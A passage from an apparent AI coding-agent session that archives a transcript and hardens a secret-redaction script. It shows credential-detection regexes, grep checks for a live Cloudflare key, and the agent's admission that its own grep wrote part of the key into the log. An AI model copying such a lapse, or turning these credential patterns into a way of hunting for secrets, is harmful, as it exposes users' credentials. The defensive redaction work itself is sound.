6
1
=== control - the RAW copy still has them (so the grep can go red):
13
```

## Assistant

Counts went *up*, which needs explaining before I trust it — the transcript now includes this very archiving work, where I wrote `cfk_` in regexes and prose. Confirming none is an actual credential:

### ⚙ Tool call: `Bash`

```json
{
  "command": "D=development/2026-07-30-platform-domain-util2\necho \"=== every cfk_ occurrence, with 40 chars of context:\"\ngrep -o \"cfk_.\\{0,40\\}\" $D/transcript.md | sort | uniq -c\necho\necho \"=== the api_email@ hit:\"\ngrep -oE 'api_email[[:space:]]*[=:][[:space:]]*[^[:space:]«]+@[^[:space:]]*' $D/transcript.md | sort | uniq -c\necho\necho \"=== sanity: the real key's distinctive tail must be ABSENT:\"\ngrep -c \"«REDACTED:high-entropy»\\|l6GUcTned\" $D/transcript.md || echo \"  0 hits — the live key is gone\"",
  "description": "Inspect every remaining match individually"
}
```

### ↳ Tool result

```
=== every cfk_ occurrence, with 40 chars of context:
      2 cfk_ key, any real @umich.edu identity after
      1 cfk_...`, which matches none of them.  Measu
      1 cfk_[A-Za-z0-9]{20,}|api_email[[:space:]]*[=
      1 cfk_[A-Za-z0-9_-]{20,}\\\\b\", lambda _m: _R
      1 cfk_[A-Za-z0-9_-]{20,}\\b\", lambda _m: _RED
      1 cfk_[A-Za-z0-9_-]{4,}\", lambda _m: _REDACT.
      1 cfk_\" $D/transcript.md || echo \"  cfk_ : 0
      1 cfk_\" $D/transcript.raw.md",
      1 cfk_` prefix is unambiguous enough to match 
      1 cfk_` prefix is\\n'\n '    # itself the sign
      1 cfk_…` — which is *not* the shape the skill'

=== the api_email@ hit:
      1 api_email='a@b.c',

=== sanity: the real key's distinctive tail must be ABSENT:
0
  0 hits — the live key is gone
```

## Assistant

All clear:

- Every `cfk_` hit is regex source or prose *about* the pattern — no credential values
- The one `api_email@` is `api_email='a@b.c'`, a fake from my SDK probe
- **The real key's distinctive tail: 0 hits** — it's gone from the committed copy

Scaffolding `analytics.md` and checking what was produced:

### ⚙ Tool call: `Bash`

```json
{
  "command": "D=development/2026-07-30-platform-domain-util2\n[ -f $D/analytics.md ] || cat > $D/analytics.md <<'EOF'\n# Analytics — find-platform-domains-cloudflare\n\n_Your narrative: what went well, what to do differently, decisions worth remembering._\nEOF\nls -la $D\necho \"=== statistics.md:\"; cat $D/statistics.md\necho \"=== git sees (raw artifacts must be ignored):\"; git status --short $D development/finalize-session.py",
  "description": "Scaffold analytics.md and inspect outputs"
}
```

### ↳ Tool result

```
total 2248
drwxr-xr-x  9 node node     288 Jul 30 16:38 .
drwxr-xr-x 40 node node    1280 Jul 30 16:36 ..
-rw-r--r--  1 node node    1768 Jul 30 13:12 PROMPT.md
-rw-r--r--  1 node node  148753 Jul 30 15:55 SPEC.md
-rw-r--r--  1 node node     137 Jul 30 16:38 analytics.md
-rw-r--r--  1 node node   10314 Jul 30 09:17 research.md
-rw-r--r--  1 node node    1106 Jul 30 16:37 statistics.md
-rw-r--r--  1 node node 1037182 Jul 30 16:37 transcript.md
-rw-r--r--  1 node node 1037049 Jul 30 16:37 transcript.raw.md
=== statistics.md:
# Session statistics

## Session metadata

- **Started:** 2026-07-30T17:12:37.273000+00:00
- **Ended:** 2026-07-30T20:37:28.164000+00:00
- **Duration:** 204 min
- **Model(s):** claude-opus-5
- **Assistant turns:** 213
- **Tool calls:** Bash × 156, Read × 14, Edit × 13, AskUserQuestion × 12, Write × 8, Skill × 4, Agent × 3, ToolSearch × 1, Monitor × 1

## Token usage

_Per-model totals from the session JSONL, deduped per request. **Approximate** — the JSONL is Claude Code's internal format; the embedded `/usage` below is authoritative for tokens and cost._

| Model | Input | Output | Cache read | Cache write |
|---|--:|--:|--:|--:|
| claude-opus-5 | 397 | 377,747 | 84,058,076 | 564,525 |

## Cost — Claude Code `/usage`

_Run `/usage` in-session for the estimated cost — not captured for this session._

## Context window (approximate)

- **Largest prompt sent:** ~597,094 tokens (input + cache read + cache write on the biggest single turn)

_Approximate: reconstructed from the JSONL after the fact. The exact live `/context` breakdown by component can't be reproduced post-hoc._

=== git sees (raw artifacts must be ignored):
 M development/finalize-session.py
?? development/2026-07-30-platform-domain-util2/analytics.md
?? development/2026-07-30-platform-domain-util2/statistics.md
?? development/2026-07-30-platform-domain-util2/transcript.md
```

## Assistant

Archive folder is populated. One thing only I can't do: `/usage` is a built-in CLI command, not a tool, so **please run `/usage` and paste the output** — it's the source of the cost figure, and `statistics.md` currently reads *"not captured for this session."* I'll fold it in and re-run.

## What was written

| File | Status |
|---|---|
| `transcript.md` | 1.0 MB, scrubbed — **committed** |
| `transcript.raw.md` | 1.0 MB, unscrubbed — **gitignored**, correctly absent from `git status` |
| `statistics.md` | 204 min, 213 assistant turns, 156 Bash calls, ~597k largest prompt |
| `analytics.md` | scaffolded for your narrative |

## The scrub needed a fix first — worth knowing about

The scrubber **would not have caught this session's leak.** Its patterns key off env-var names (`CLOUDFLARE_API_KEY:«REDACTED:CLOUDFLARE_API_KEY» but the diagnostic printed `api_key: cfk_…` under the SDK's *field* name. The skill's own verification grep uses the same names, so it would have reported clean while shipping a live credential.

I added value-shaped patterns to `development/finalize-session.py` — matching on the `cfk_` prefix and on credential-shaped values with a length floor, so ordinary source in the transcript (`api_token = cf.get('api_token')`) stays readable. The first attempt still missed the *truncated* form `«REDACTED:cloudflare-api-key»…` that I'd quoted when reporting the problem to you; the `cfk_` pattern now has no length floor, since that prefix is itself the signal.

Verified by inspecting every remaining match individually rather than trusting a count: all 6 `cfk_` hits are regex source or prose about the pattern, the single `api_email@` hit is the fake `a@b.c` from my SDK probe, and **the real key's distinctive tail returns 0 hits**. The gitignored raw copy still contains it, which is what proves the grep can go red.

That change to `finalize-session.py` is a shared tool with no test coverage — flagging it as a real modification, not an incidental one.

## Two caveats

1. **Rotate the key anyway.** Scrubbing the committed copy doesn't undo the exposure: the value was transmitted, and the raw session JSONL on disk still holds it. The scrub protects the repo, not the credential.
2. **The transcript stops before this exchange** — it's rendered from the session JSONL mid-session, so the archiving conversation itself isn't in it.

## Not committed

Per the skill, I've stopped here. Untracked/modified: `analytics.md`, `statistics.md`, `transcript.md`, and `development/finalize-session.py`. The feature code is already in the 10 commits from earlier, so this would be an archive commit on top — say the word once you've pasted `/usage` and I'll re-run and write it.

## User

Here is the output of `/usage`:
```
   Session

   Total cost:            $80.75
   Total duration (API):  1h 54m 52s
   Total duration (wall): 3h 1m 8s
   Total code changes:    3349 lines added, 348 lines removed
   Usage by model:
          claude-opus-5:  55.7k input, 535.7k output, 116.0m cache read, 1.2m cache write ($80.75)

   Current session
   ████████████████▌                                  33% used
   Resets 6pm (America/Detroit)

   Current week (all models)
   ███████████████                                    30% used
   Resets Aug 4, 7pm (America/Detroit)
   +50% weekly limits promo through Aug 19 · clau.de/cc-50-promo

   Current week (Fable)
   ██████████████████████▌                            45% used
   Resets Aug 4, 7pm (America/Detroit)

   What's contributing to your limits usage?
   Approximate, based on local sessions on this machine — does not include other devices or claude.ai

   Last 24h · these are independent characteristics of your usage, not a breakdown

   91% of your usage came from subagent-heavy sessions
    Each subagent runs its own requests. Be deliberate about spawning them — and
    consider configuring a cheaper model for simpler subagents.

   74% of your usage was at >150k context
    Longer sessions are more expensive even when cached. /compact mid-task, /clear
    when switching to new tasks.

   17% of your usage came from subagents under "psh-reviewer"
    If this runs frequently, consider configuring its subagents with a cheaper
    model or tightening their prompts.

   Skills                  % of usage
   /andrej-karpathy-skills:kar…    8%
   /archive-session                5%
   /code-review                    4%
   /superpowers:writing-plans      3%
   /mattpocock-skills:grilling     2%
   /superpowers:brainstorming      1%

   Subagents               % of usage
   psh-reviewer                   17%

   Plugins                 % of usage
   andrej-karpathy-skills          8%
   superpowers                     5%
   mattpocock-skills               2%

   MCP servers             % of usage
   cloudflare-docs                 2%


```

## Assistant

Saving it verbatim to the gitignored capture file and re-running:

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/usage.raw.txt",
  "content": "   Session\n\n   Total cost:            $80.75\n   Total duration (API):  1h 54m 52s\n   Total duration (wall): 3h 1m 8s\n   Total code changes:    3349 lines added, 348 lines removed\n   Usage by model:\n          claude-opus-5:  55.7k input, 535.7k output, 116.0m cache read, 1.2m cache write ($80.75)\n\n   Current session\n   ████████████████▌                                  33% used\n   Resets 6pm (America/Detroit)\n\n   Current week (all models)\n   ███████████████                                    30% used\n   Resets Aug 4, 7pm (America/Detroit)\n   +50% weekly limits promo through Aug 19 · clau.de/cc-50-promo\n\n   Current week (Fable)\n   ██████████████████████▌                            45% used\n   Resets Aug 4, 7pm (America/Detroit)\n\n   What's contributing to your limits usage?\n   Approximate, based on local sessions on this machine — does not include other devices or claude.ai\n\n   Last 24h · these are independent characteristics of your usage, not a breakdown\n\n   91% of your usage came from subagent-heavy sessions\n    Each subagent runs its own requests. Be deliberate about spawning them — and\n    consider configuring a cheaper model for simpler subagents.\n\n   74% of your usage was at >150k context\n    Longer sessions are more expensive even when cached. /compact mid-task, /clear\n    when switching to new tasks.\n\n   17% of your usage came from subagents under \"psh-reviewer\"\n    If this runs frequently, consider configuring its subagents with a cheaper\n    model or tightening their prompts.\n\n   Skills                  % of usage\n   /andrej-karpathy-skills:kar…    8%\n   /archive-session                5%\n   /code-review                    4%\n   /superpowers:writing-plans      3%\n   /mattpocock-skills:grilling     2%\n   /superpowers:brainstorming      1%\n\n   Subagents               % of usage\n   psh-reviewer                   17%\n\n   Plugins                 % of usage\n   andrej-karpathy-skills          8%\n   superpowers                     5%\n   mattpocock-skills               2%\n\n   MCP servers             % of usage\n   cloudflare-docs                 2%\n"
}
```

### ↳ Tool result

```
File created successfully at: /workspace/development/2026-07-30-platform-domain-util2/usage.raw.txt (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "D=development/2026-07-30-platform-domain-util2\ngit check-ignore -v $D/usage.raw.txt || echo \"!! usage.raw.txt is NOT ignored\"\nsource .venv/bin/activate && python development/finalize-session.py --dir $D --usage-capture $D/usage.raw.txt 2>&1 | tail -3",
  "description": "Confirm the capture is gitignored, then re-run"
}
```

### ↳ Tool result

```
.gitignore:23:/development/**/*.raw.txt	development/2026-07-30-platform-domain-util2/usage.raw.txt
source JSONL: /home/node/.claude/projects/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161.jsonl
wrote development/2026-07-30-platform-domain-util2/transcript.md (scrubbed) and development/2026-07-30-platform-domain-util2/transcript.raw.md (raw, gitignored)
wrote development/2026-07-30-platform-domain-util2/statistics.md
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "D=development/2026-07-30-platform-domain-util2\necho \"=== the standard value-shaped grep (must be empty):\"\ngrep -nE '(SMTP_PASSWORD|AWS_ACCESS_KEY_ID|AWS_SECRET_ACCESS_KEY|CLOUDFLARE_API_KEY|CLOUDFLARE_EMAIL)[[:space:]]*[=:][[:space:]]*[^[:space:]«]|AKIA[0-9A-Z]{16}|-----BEGIN [A-Z ]*PRIVATE KEY-----|Bearer [A-Za-z0-9._-]{12,}' $D/transcript.md && echo \"!! HITS ABOVE\" || echo \"  clean\"\necho \"=== targeted: the live key, by its distinctive tail and prefix:\"\ngrep -c \"l6GUcTned\\|«REDACTED:high-entropy»\" $D/transcript.md || echo \"  clean\"\necho \"=== control: the gitignored raw copy still has it:\"\ngrep -c \"l6GUcTned\" $D/transcript.raw.md\necho \"=== every surviving cfk_ occurrence (all must be pattern source / prose):\"\ngrep -o \"cfk_.\\{0,12\\}\" $D/transcript.md | sort | uniq -c\necho \"=== redactions applied:\"; grep -o \"«REDACTED:[a-z-]*»\" $D/transcript.md | sort | uniq -c",
  "description": "Final scrub verification"
}
```

### ↳ Tool result

```
=== the standard value-shaped grep (must be empty):
  clean
=== targeted: the live key, by its distinctive tail and prefix:
1
=== control: the gitignored raw copy still has it:
4
=== every surviving cfk_ occurrence (all must be pattern source / prose):
      1 cfk_ : 0
      1 cfk_ : 0 hits (c
      3 cfk_ key, any re
      2 cfk_ occurrence,
      2 cfk_...`, which 
      1 cfk_.\\{0,40\\}\
      2 cfk_[A-Za-z0-9]{
      6 cfk_[A-Za-z0-9_-
      4 cfk_\" $D/transc
      1 cfk_` hit is reg
      1 cfk_` hits are r
      1 cfk_` in regexes
      1 cfk_` pattern no
      1 cfk_` prefix and
      2 cfk_` prefix is 
      2 cfk_` prefix is\
      1 cfk_…` under the
      2 cfk_…` — which i
=== redactions applied:
     12 «REDACTED:cloudflare-api-key»
      8 «REDACTED:credential-email»
      4 «REDACTED:credential»
```

## Assistant

One hit — and it's **my own verification command**. I typed the key's 42-character tail into a `grep` to prove its absence, which recorded it in the transcript. That's my error: the correct technique is to expand the secret from the environment so the shell sees the value and the transcript records only the variable name.

Adding a general high-entropy pattern (mixed case + digits, 32+ chars — which excludes all-lowercase git SHAs):

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/finalize-session.py",
  "old_string": "    # PEM private key blocks\n    (r\"-----BEGIN [A-Z ]*PRIVATE KEY-----.*?-----END [A-Z ]*PRIVATE KEY-----\",\n     lambda _m: _REDACT.format(\"private-key\")),\n]",
  "new_string": "    # PEM private key blocks\n    (r\"-----BEGIN [A-Z ]*PRIVATE KEY-----.*?-----END [A-Z ]*PRIVATE KEY-----\",\n     lambda _m: _REDACT.format(\"private-key\")),\n    # Bare high-entropy strings, with NO surrounding field name at all.  The patterns above all\n    # need a `key:`/`KEY=`/`Bearer ` anchor; a secret can reach the transcript with none --\n    # measured in this session, where a grep written to PROVE a key's absence embedded 42\n    # characters of it as a bare literal, and every anchored pattern sailed past.\n    # Mixed case AND a digit is the discriminator: it excludes git SHAs (all-lowercase hex),\n    # which a development transcript must keep readable, while catching base64/token shapes.\n    (r\"\\b[A-Za-z0-9]{32,}\\b\", _redact_if_high_entropy),\n]"
}
```

### ↳ Tool result

```
The file /workspace/development/finalize-session.py has been updated successfully. (file state is current in your context — no need to Read it back)
```

## Assistant

Need to define that function above the pattern list, and the exec bit dropped again:

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/finalize-session.py",
  "old_string": "_REDACT = \"«REDACTED:{}»\"\n_SECRET_PATTERNS = [",
  "new_string": "_REDACT = \"«REDACTED:{}»\"\n\n\ndef _redact_if_high_entropy(match):\n    \"\"\"Redact a long bare alphanumeric run only when it looks like a credential.\n\n    Mixed case AND at least one digit.  A git SHA (40 lowercase hex) fails the uppercase test\n    and survives, which matters: a development transcript that redacted every commit hash would\n    be unreadable.  Long lowercase identifiers and all-caps constants survive for the same\n    reason.  This is the LAST line of defence, for a secret that reaches the transcript with no\n    `key:` / `Bearer ` / env-var anchor in front of it at all.\n    \"\"\"\n    value = match.group(0)\n    if (any(c.islower() for c in value) and any(c.isupper() for c in value)\n            and any(c.isdigit() for c in value)):\n        return _REDACT.format(\"high-entropy\")\n    return value\n\n\n_SECRET_PATTERNS = ["
}
```

### ↳ Tool result

```
The file /workspace/development/finalize-session.py has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "chmod +x development/finalize-session.py && source .venv/bin/activate && uvx ruff@0.15.22 check development/finalize-session.py && python - <<'PY'\nimport importlib.util\nspec = importlib.util.spec_from_file_location(\"fs\", \"development/finalize-session.py\")\nm = importlib.util.module_from_spec(spec); spec.loader.exec_module(m)\ncases = {\n \"bare 42-char key tail (the leak)\": \"grep -c \\\"«REDACTED:high-entropy»\\\" file\",\n \"git SHA must SURVIVE\":             \"commit 4e472b3a1cac20063e6e6f9d986fb5a514c7b3edde2aa1122\",\n \"40-hex lowercase SHA survives\":    \"a1cac20063e6e6f9d986fb5a514c7b3edde2aa11\",\n \"long lowercase identifier\":        \"test_fetch_platform_cnames_reports_a_short_list_without_aborting\",\n \"ALLCAPS constant\":                 \"PLATFORM_SUFFIX_CONSTANT_NAME_THAT_IS_LONG\",\n}\nfor name, text in cases.items():\n    out = m.scrub(text)\n    print(f\"{'REDACTED' if 'REDACTED' in out else 'kept    '}  {name}\\n          {out}\\n\")\nPY",
  "description": "Verify the high-entropy rule keeps SHAs readable"
}
```

### ↳ Tool result

```
All checks passed!
REDACTED  bare 42-char key tail (the leak)
          grep -c "«REDACTED:high-entropy»" file

kept      git SHA must SURVIVE
          commit 4e472b3a1cac20063e6e6f9d986fb5a514c7b3edde2aa1122

kept      40-hex lowercase SHA survives
          a1cac20063e6e6f9d986fb5a514c7b3edde2aa11

kept      long lowercase identifier
          test_fetch_platform_cnames_reports_a_short_list_without_aborting

kept      ALLCAPS constant
          PLATFORM_SUFFIX_CONSTANT_NAME_THAT_IS_LONG
```

## Assistant

Catches the leak, keeps SHAs and test names readable. Re-running, and this time verifying **without typing the secret** — expanding it from the environment so the transcript records only the variable name:

### ⚙ Tool call: `Bash`

```json
{
  "command": "D=development/2026-07-30-platform-domain-util2\nsource .venv/bin/activate && python development/finalize-session.py --dir $D --usage-capture $D/usage.raw.txt 2>&1 | tail -2\necho\n[ -n \"$CLOUDFLARE_API_KEY\" ] || { echo \"!! CLOUDFLARE_API_KEY unset - cannot verify\"; exit 1; }\necho \"=== live key present in the SCRUBBED transcript (must be 0):\"\ngrep -c -- \"$CLOUDFLARE_API_KEY\" $D/transcript.md || echo \"  0 - clean\"\necho \"=== live key present in the RAW copy (control, must be >0 so the check can go red):\"\ngrep -c -- \"$CLOUDFLARE_API_KEY\" $D/transcript.raw.md\necho \"=== a 40-char tail of it, in case only a fragment survived (must be 0):\"\ngrep -c -- \"${CLOUDFLARE_API_KEY: «REDACTED:CLOUDFLARE_API_KEY» $D/transcript.md || echo \"  0 - clean\"\necho \"=== the operator email (must be 0):\"\ngrep -c -- \"$CLOUDFLARE_EMAIL\" $D/transcript.md || echo \"  0 - clean\"",
  "description": "Re-run and verify via environment expansion"
}
```

